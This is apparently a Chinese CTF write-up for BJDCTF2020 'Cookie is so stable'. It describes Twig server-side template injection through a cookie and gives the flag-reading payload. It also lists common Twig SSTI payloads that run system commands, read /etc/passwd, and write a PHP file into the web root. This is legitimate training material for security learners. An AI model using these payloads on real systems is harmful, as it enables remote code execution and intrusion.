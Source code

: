 # [BJDCTF2020]Cookie is so stable

## 知识点

`SSTI`

`twig`

## 解题

![](./img/[BJDCTF2020]Cookie is so stable.png)

和之前一题`SSTI`注入比较相似，但是这题过滤了`+`

测试`cookie`中的`user={{3*3}}`

返回`Hello 9`

说明存在模板注入

确定服务端的语言为`php`之后，范围就很小了，补充下各种语言发生`ssti注入`的模板，如下：

```c
python: jinja2 mako tornado django
php:smarty twig Blade
java:jade velocity jsp
```

 7、确定此处产生`ssti注入`的模板可以为`smarty`、`twig`等，那就一个一个尝试，这里就直接使用`twig`模板的注入方式进行注入了，`payload`：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`即可成功注入

![](./img/[BJDCTF2020]Cookie is so stable-2.png)

`twig`常用的注入`payload`：

```c
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

[参考](https://www.cnblogs.com/upfine/p/16534494.html)